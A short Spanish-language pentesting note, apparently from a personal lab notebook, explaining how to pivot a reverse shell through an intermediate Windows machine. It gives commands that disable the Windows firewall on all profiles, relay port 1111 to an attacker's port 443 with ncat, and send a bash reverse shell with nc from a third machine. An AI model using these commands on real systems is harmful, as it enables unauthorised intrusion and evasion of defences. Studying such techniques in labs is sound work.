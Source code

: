 En windows, en vez de usar socat podemos usar ncat para permitir el tráfico de una reverse shell por parte de una máquina 3 pasando por una máquina windows intermedia. Por ejemplo, desde el Kali nos ponemos a la escucha:
![[Pasted image 20240303120530.png]]
A continuación, en la máquina intermedia podemos desactivar el firewall para evitar tener problemas:
```bash
netsh advfirewall set allprofiles state off
```
![[Pasted image 20240303154211.png]]
Ahora desde la máquina Windows intermedia decimos que todo el tráfico que recibamos por ejemplo por el puerto 1111 lo vamos a enviar al puerto 443 de la máquina atacante:
```bash
ncat -l -p 1111 -c "ncat 192.168.0.20 443"
```
![[Pasted image 20240303120641.png]]
Entonces ahora desde la máquina 3 enviamos la reverse shell a la máquina windows 7 intermedia por el puerto 1111 y deberíamos de recibir la conexión en nuestro Kali:
```bash
nc -c bash 10.10.10.129 1111
```
![[Pasted image 20240303120735.png]]
Y recibimos la conexión:
![[Pasted image 20240303120747.png]]
